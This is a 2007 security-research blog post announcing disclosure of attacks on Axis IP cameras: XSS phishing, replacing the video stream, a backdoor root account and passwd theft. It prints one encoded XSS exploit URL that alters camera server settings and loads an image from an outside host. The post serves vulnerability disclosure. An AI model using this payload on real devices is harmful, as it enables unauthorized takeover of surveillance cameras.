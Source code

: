 ```yaml
---
title: Owning Big Brother - Hollywood-style Exploits Included!
author: pagvac
date: Fri, 28 Sep 2007 18:43:14 GMT
template: post.jade
---
```


I've done some research on Axis IP cameras, which now I am able to disclose to you and reveal some of the magic. Although this is not independent research, I am mentioning it here as it may interest some.

The research is made of two components: a purple paper (one of the traditions we follow in GNUCITIZEN) and a video. I promise you that I won't bore you with PoCs, but actual Hollywood-style exploits. This includes the classic attack in which the legitimate video stream gets replaced by another stream that keeps looping forever (remember [Speed](http://en.wikipedia.org/wiki/Speed_(film))). We even created a [demo video](//www.youtube.com/watch?v=CEaasduNWBE) of this attack! Blame [Major Malfunction](http://www.alcrypto.co.uk/) (soon to be featured) for this, as he suggested the third-party-video infinite loop technique.

Here are some of the juicy bits, mentioned in the paper:

* Cross-browser XSS phishing
* Replacing the legitimate video stream with our own
* Adding a Backdoor Root Account
* Stealing the 'passwd' File

Here is an example of an exploit that we've come up with. You don't know what it is doing? Well, read the paper for more details:

	http://target/%3cscript%20src=%22/this_server/ServerManager.sr
	v%3fconf_Layout_TitleEnabled=yes&Layout_TitleEnabled=on&conf_L
	ayout_OwnTitleEnabled=yes&conf_Layout_OwnTitle=%3cimg%20src=ht
	tp://snipu.com/f1%3e%3c!--
	&servermanager_do=set_variables%22%3e%3c/script%3e%3c!--
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
